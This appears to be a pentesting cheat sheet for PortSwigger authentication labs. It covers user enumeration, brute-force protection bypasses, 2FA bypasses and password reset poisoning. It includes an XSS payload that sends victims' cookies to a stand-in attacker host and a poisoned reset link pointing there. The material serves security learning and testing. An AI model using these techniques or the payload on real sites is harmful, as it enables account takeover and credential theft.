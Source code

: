 # Authentication

## Summary

* [General Recon For Authentication Vulnerabilities](#recon)
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Resources

* https://portswigger.net/web-security/authentication
* https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/04-Authentication_Testing/README
* https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/

## Recon

* Walk-through the application and identify any processes that pertain to user identification ( e.g. login, registration, reset/forgot password, etc. )

* Analyze the source code of the application and identify any files or comments or any other resources that may leak information that helps identify valid users.

* Use enumeration tools to discover more content such as hidden directories or files which may leak information about valid users or other authentication related processes. (Tools = Burp Pro’s (Discover Content), gobuster, ffuf , etc.)

* Determine if there is a consistent account name/email structure ( John Doe = jdoe@test.com ) this can help to identify potential users of the application.

* All this information can be helpful when performing authentication related testing, such as the cases described in the labs here.


---
---

## Cheat Sheet

### Verbose Messages:  
* Submit invalid credentials to an authentication related function and analyze the response.  Identify if there is a way to enumerate valid credentials based off any error messages the application is returning.  

* For example, if the username is incorrect the application returns the error message “Invalid username”, however, when the password is incorrect the application returns the error message “Invalid password”.


### Verbose Messages:  
* Similar to the previous point, the responses may have a very minor difference that can be difficult to identify just by looking at them.  We can use Burp Intruder’s “Grep-Match” function to see which response does not contain the known message.  

* For example, when the username is incorrect the message will be “**Invalid username or password.**”, but when the password is incorrect the message changes to “**Invalid username or password**”. (The period . at the end is missing in the 2nd message)


### Misconfiguration Bypass:  
* Sometimes the application will not validate the password field unless the submitted username exists on the application.  

* We can take advantage of this logic and submit requests that contain a very long password, and brute force for valid usernames.  The valid username should have a notable difference in the time taken to receive the response.


### Brute Force Protection Bypass:  
* The application may be blocking our requests after a certain number of invalid requests that are submitted.  We can potentially bypass this restriction by using the **X-Forwarded-For** header in our requests to spoof our IP address.


### Brute Force Protection Bypass:  
* The application may be blocking our requests after a certain number of invalid requests that are submitted.  

* We can try submitting valid credentials before that limit is reached and see if we can bypass this protection.  If this works, we need to include the valid credentials in our brute force requests to prevent from being blocked and bypass this logic.


### Logic Flaw Bypass:  
* The application may be blocking our authentication requests after a certain number of invalid requests are submitted.  However, sometimes the application will only lock out accounts that actually exist.  

* We can use this logic to gather valid accounts on the application, if our requests get blocked or similar, the username may be a valid one.


### Logic Flaw Bypass:  
* It may be possible to submit multiple passwords with just one HTTP request by using an Array of Strings ->  [“test123”, “password”, …].


### 2FA Bypass:  
* When directed to a page where the 2FA code needs to be submitted, force browse to another page.  This may bypass the 2FA code requirement.


### 2FA Bypass:  
* Strictly analyze the authentication process and identify if there are any parameters/headers/endpoints that are explicitly used to determine which user the 2FA code will be created for.  If we can tamper these values, we may be able to log into the application as another user without needing to know their authentication credentials.  

* For example, after logging into the application with valid credentials, there is a request that is submitted to the application which contains the following Cookie –> Cookie: verify=user1.  Change that cookie value to another user.  

* Then when submitting the request when entering the 2FA code include/change the same cookie value and either brute force the 2FA code or include the code you obtained and see if this bypasses any logic flaws.


### 2FA Bypass:  
* If the application is terminating our valid session cookie after a certain amount of incorrect 2FA code attempts, then we can use a Burp Macro to create a new session after every request that is sent through Burp’s Proxy, Repeater, Intruder, etc.  

* Check out the following lab for an example – “Lab: 2FA bypass using a brute-force attack”   -   *pending quick write up on Burp Macro to include on here*


### Brute Force Protection Bypass / Insecure Design:  
* Use all the application’s functionality that is available.  If the application has a “Remember me” feature after logging in, use it and identify how the application is implementing this feature.  If this feature is insecure, we can exploit it to potentially log into the application as another user or enumerate valid accounts.  

* For example, after clicking on the “Remember me” functionality, the application sets a new cookie on the client.  The cookie is generated by hashing the user’s password with an insecure hashing algorithm with no salt and appending their username to it.  If there aren’t any brute force protections on this Cookie, we can use this vector to brute force the credentials of another user.

* If the application contains an XSS vulnerability, we can inject this payload to steal another user's Cookie and crack the password offline:

```javascript
<script>document.location='https://ATTACKER-SERVER.COM/'+document.cookie </script>
```


### Authentication Bypass:  
* Use all of the applications functionality related to authentication such as Forgot password, Reset password, Update password, etc.  Analyze the entire processes and identify any interesting headers/parameters that are potentially being used to identify which user the requests are being initiated for.  Change these values to another account and analyze how the application responds.  

* For example, when using the “Forgot Password” functionality, there is a body parameter called username.  It may be possible to update the password of any valid user on the application by simply changing the value of this parameter.


### Authentication Bypass:  
* When using the “Forgot password” functionality on an application, identify if it is possible to manipulate the domain used in the password reset link.  We can use headers such as (Host, X-Forwarded-Host, or X-Host) to do this.  If this is possible then we may be able to steal another user’s reset token to update their password.  

* For example, if we can manipulate the password reset link to be https://ATTACKER-SERVER.COM/reset?token=xxx, when the user clicks on this link that they receive in their email, the request will be sent to the attacker's server and the query parameter will be logged.  Now we can use this password reset token in the correct application domain to reset the victim user's password. 

* Check out the following lab for an example - Lab: Password reset poisoning via middleware


### Verbose Messages:  
* The login page is not the only place that can contain overly verbose messages indicating that a username or password is correct/incorrect.  If the application has a change password functionality, we can potentially use this function to brute force the correct password of another user by using the application’s verbose responses.

* For example, in a change password function, supplying different combinations for correct/incorrect values in the userName, currentPassword, newPassword, and confirmNewPassword parameters, may result in a method to enumerate user credentials.
